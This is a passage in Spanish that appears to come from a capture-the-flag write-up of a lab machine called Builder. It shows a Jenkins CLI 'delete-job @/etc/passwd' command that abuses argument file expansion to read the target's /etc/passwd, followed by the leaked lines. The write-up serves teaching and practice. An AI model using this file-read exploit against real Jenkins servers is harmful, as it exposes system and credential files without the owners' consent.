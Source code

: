 ![](../assets/images/Builder/Web4.png)
- Podemos ver que la instrucción connect-node como también delete-job puede enlistar 21 líneas, lo que nos permite ver mas contenido. 

```ruby
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/etc/passwd 2>&1 | grep -oP "'.*?'"
'www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin'
'root:x:0:0:root:/root:/bin/bash'
'mail:x:8:8:mail:/var/mail:/usr/sbin/nologin'
'backup:x:34:34:backup:/var/backups:/usr/sbin/nologin'
'_apt:x:42:65534::/nonexistent:/usr/sbin/nologin'
'nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin'
'lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin'
'uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin'
'bin:x:2:2:bin:/bin:/usr/sbin/nologin'
'news:x:9:9:news:/var/spool/news:/usr/sbin/nologin'
'proxy:x:13:13:proxy:/bin:/usr/sbin/nologin'
'irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin'
'list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin'
'jenkins:x:1000:1000::/var/jenkins_home:/bin/bash'
'games:x:5:60:games:/usr/games:/usr/sbin/nologin'
'man:x:6:12:man:/var/cache/man:/usr/sbin/nologin'
'daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin'
```